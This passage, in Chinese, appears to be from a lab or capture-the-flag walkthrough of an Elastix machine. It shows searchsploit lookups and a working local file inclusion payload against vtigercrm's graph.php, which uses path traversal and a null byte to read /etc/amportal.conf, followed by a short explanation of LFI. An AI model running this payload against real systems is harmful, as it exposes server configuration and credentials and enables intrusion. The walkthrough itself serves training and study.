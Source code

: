 我使用以下命令

```
searchsploit elastix
```

我们可以看到几个漏洞，但是我们将使用这个命令检查**‘graph . PHP’本地文件包含内容**

```
searchsploit -x 37637.pl
```

我们有一个利用和代码的摘要

![Screenshot-2019-09-02-at-23.44.25](img/6973f26eac8aef5d28098a7740d3e334.png)

LFI 的漏洞利用如下

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

攻击者可以使用**本地文件包含(LFI)** 来欺骗 web 应用程序暴露或运行 web 服务器上的文件。LFI 攻击可能导致信息泄露、远程代码执行，甚至跨站点脚本攻击(XSS)

您也可以检查**漏洞数据库**来查找漏洞
